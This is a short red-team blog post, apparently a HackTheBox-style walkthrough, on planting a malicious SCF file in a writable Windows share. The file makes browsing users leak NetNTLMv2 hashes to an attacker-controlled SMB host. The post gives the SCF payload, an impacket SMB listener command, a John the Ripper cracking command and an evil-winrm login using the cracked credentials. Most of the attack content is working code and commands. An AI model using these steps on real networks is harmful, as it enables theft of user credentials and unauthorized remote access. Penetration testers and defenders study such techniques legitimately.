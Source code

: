 ```yaml
---
title:  "using-a-scf-file-to-gather-hashes"
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: SMB-SCF  File Attacks(NetNTLMv2 hash(challenge) grab)
categories:
  - Red-Teaming
toc: true
---
```


Have you ever been on a internal network assessment and discovered an unauthenticated writable Windows-based file share? Well, in addition to finding potentially sensitive information, you can abuse this to gather user hashes from users who are browsing the file share.

## Gathering Hashes
It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer.
However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack.

## Create a file
The code  can be placed inside a text file which then needs to be planted into a network share.

Saving as SCF file will make the file to be executed when the user will browse the file

Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.
```
[shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Replace with your IP address of where you have Responder listening.

<img src="/img/fci/pay.PNG" alt="Getting-gz" width="800" height="200"> 

## set listener 
```
impacket-smbserver -debug -smb2support share /home/nored0x/Desktop/HTB/driver     
```
<img src="/img/fci/listner.PNG" alt="Getting-gz" width="800" height="200"> 

## crack hash 
```
john hash -w=/usr/share/wordlists/rockyou.txt
```
<img src="/img/fci/hash.PNG" alt="Getting-gz" width="800" height="200"> 


<img src="/img/fci/john.PNG" alt="Getting-gz" width="800" height="200"> 


## connect with evil-winrm
```
./evil-winrm.rb -i 10.10.11.106 -u tony -p liltony 
download tool:https://github.com/Hackplayers/evil-winrm
``` 
 
<img src="/img/fci/connect.PNG" alt="Getting-gz" width="800" height="200"> 

  
                       
